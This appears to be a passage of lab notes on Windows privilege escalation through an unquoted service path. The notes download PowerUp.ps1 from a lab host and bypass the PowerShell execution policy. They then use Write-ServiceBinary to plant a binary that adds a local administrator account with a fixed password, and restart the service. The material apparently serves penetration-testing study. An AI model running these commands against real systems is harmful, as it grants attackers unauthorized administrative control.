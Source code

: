 `net user`

Result:

`dave2`

`net localgroup administrators`

Restore original service by stopping the service and deleting Current.exe

Does #PowerUp discover this priv esc vector?

Transferring PowerUp.ps1 to target

`iwr http://192.168.48.3/PowerUp.ps1 -Outfile PowerUp.ps1`

Set execution policy bypass

`powershell -ep bypass`

Use `Get-UnquotedService` flag 

`. .\PowerUp.ps1`

`Get-UnquotedService`

The GammaService was identified as vulnerable.

Use the AbuseFunction and restart the service 

Default behavior of AbuseFunction `Write-ServiceBinary: 
Create a new local user called _john_ with the password _Password123!_
Add this user to local _Administrators_ group

`Write-ServiceBinary -Name 'GammaService' -Path "C:\Program Files\Enterprise Apps\Current.exe"`

Restart service

`Restart-Service GammaService`

Verify user creation 

`net user`

Verified.

